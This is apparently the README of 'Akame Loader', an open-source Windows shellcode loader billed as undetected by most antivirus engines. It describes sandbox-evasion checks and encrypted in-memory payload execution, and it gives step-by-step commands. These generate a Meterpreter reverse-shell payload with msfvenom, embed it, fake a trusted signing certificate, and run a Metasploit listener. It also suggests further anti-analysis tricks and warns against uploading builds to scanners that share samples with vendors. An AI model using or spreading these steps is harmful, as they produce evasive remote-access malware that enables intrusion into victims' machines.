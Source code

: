 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD (3/71) shellcode loader written in C++17</h4>

## Details
Icon: https://icon-icons.com/icon/Halloween-eye/109170
| Name | Details |
| ------ | ------ |
| Name | Akame Loader |
| Author | WtfIsThis |
| Language | C++17 |
| Platform | Windows |
| Version | 1.0 |
| License | MIT |
| Libraries | user32, advapi32, crypt32 |
| Encryption | AES256 |
| Build | Release - x64 |

! If you change the encryption method and want to keep your executable UD for a longer period of time, don't use VirusTotal / AntiScan.me / any other site that distributes to security vendors.

## How does it work?
1. Uses WINAPI WinMain so it doesn't popup any console window
2. Checks the current hard disk, if the size is under 100GB it closes itself
3. Sleeps for 10000ms (10s)
4. Checks if any tickcount-related function was manipulated by a sandbox (by checking the hashes and comparing the time slept with the time elapsed on the machine), if something seems wrong, it closes itself
5. Stores the IV, the encryption Key, and the encrypted payload as vectors
6. Allocates a memory buffer for the payload
7. Decrypts the payload (aes256) and closes itself if something doesn't work correctly
8. Copies the payload to a new buffer
9. Makes the new buffer as executable (This is not done during the first allocation because it's suspicious that a memory space is ReadWriteExecute at the same time and AVs may flag it!)
10. Executes the payload with an infinite thread (when the shellcode sends an 'exit' command, the process will close)

## How to build?
**1. Generate a shellcode with metasploit<br>**
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=*IP* LPORT=*PORT* -f raw > shellcode.bin

**2. Encrypt your shellcode with encrypt.exe<br>**
- mv shellcode.bin \Akame Loader\x64\Release\Resources\ <br>
- cd \Akame Loader\x64\Release\Resources\ <br>
- (optional) encrypt --help<br>
- encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV key, your KEY and your BUFF into the existent vectors<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Platform Toolset: Visual Studio 2022 (v143)<br>
- Language standard: ISO C++17<br>
- Optimization: /O2 <br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;<br>
- Generate debug info: No
  
**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to your executable and AkameCert/AkameCA to whatever you want<br>
- move Akame.exe Resources && cd Resources<br>
- makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
- certutil -user -addstore Root AkameCA.cer<br>
- makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
- pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
- signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe
  
**7. Listen for incomming connections<br>**
- msfconsole -q
- use exploit/multi/handler
- set payload windows/x64/meterpreter/reverse_tcp
- (optional) show options
- set LHOST *IP*
- set LPORT *PORT*
- exploit

## Video POC
Platform: Windows 10 x64 <br>
Antivirus: Windows Defender <br>
Link: https://streamable.com/mwknij (24/10/2022) <br>
! Blackscreens in the video caused by UAC 
  
## VirusTotal Scan (3/71 security vendors and no sandboxes on 24/10/2022)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## What should be added to make it more advanced?
- More anti analysis techniques (checking for suspicious files, directories, processes and windows' names) <br>
- Anti debugging (detecting analysis in general) <br>
- Anti static analysis (obfuscating strings, function call obfuscation and also finding kernel32 location in the process environment block  to avoid using GetModuleHandle())<br>
- Adding 'fake' imports to fill the import table and make it look more legitimate

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
